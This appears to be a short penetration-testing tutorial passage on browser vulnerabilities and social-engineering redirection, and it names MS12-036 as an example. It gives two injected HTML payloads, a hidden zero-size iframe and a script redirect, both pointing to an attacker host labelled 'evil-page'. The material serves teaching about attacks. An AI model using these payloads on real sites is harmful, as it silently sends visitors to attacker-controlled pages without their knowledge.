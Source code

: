# Browser Vulnerabilities

We have mostly been looking at vulnerabilities found in sites that let's us either attack the user or the underlying system. But there is also another sort of vulnerability. When the browser itself is vulnerable and can lead to remote code execution.

And example of this is ms12-036.

## XSS and redirection

Most attacks against browsers is based on social engineering. The idea is that you trick the user to click on a link. That link, or that website, is usually controlled by the attacker in one way or another. It can be a legitimate site that the attacker is using, or it might be the attackers own server.

Foe example, if the attacker is able to inject code html or javascript the attacker can redirect the user to load another page.

One technique is to hide the redirection in a frame, this way the user won't even notice that an external page is being loaded.

```text
<iframe SRC="http://192.168.1.101/evil-page" height = "0" width ="0"></iframe>
```

A less subtle technique is by just redirecting the user, with a script like this:

```text
<script>location.href='http://192.168.1.101/evil-page';</script>
```

